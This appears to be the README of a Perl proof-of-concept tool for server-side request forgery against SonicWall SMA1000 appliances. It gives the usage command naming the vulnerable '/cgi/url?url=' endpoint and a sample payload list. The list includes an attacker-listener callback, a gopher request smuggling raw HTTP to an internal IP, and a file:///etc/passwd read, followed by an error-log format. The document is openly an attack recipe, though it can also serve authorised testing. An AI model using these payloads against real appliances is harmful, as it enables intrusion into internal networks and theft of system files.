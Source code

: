 # ssrf_advanced.pl – Advanced SSRF PoC for SonicWall SMA1000

**Author:** TURKI ALNAFIE  
**Created:** 2025-06-18

*Usage*
perl ssrf_advanced.pl \
  --target   https://SMA_HOST_OR_IP          \
  --endpoint '/cgi/url?url='                 \
  --payloads payloads.txt                    \
  --threads  10                              \
  --timeout  5                               \
  --verbose


 
 *payloads format*
# payloads.txt
http://YOUR_LISTENER:8000/
gopher://10.0.2.15/_HEAD / HTTP/1.1\r\nHost:10.0.2.15\r\n\r\n
file:///etc/passwd



*Logging & Output*
	•	Verbose mode prints each request and response summary to STDOUT.
	•	Any response with status code ≠ 200 is saved to ssrf_errors.log:
 Wed Jun 18 22:15:03 2025 | 403 | https://10.0.0.5/cgi/url?url=http%3A%2F%2F...

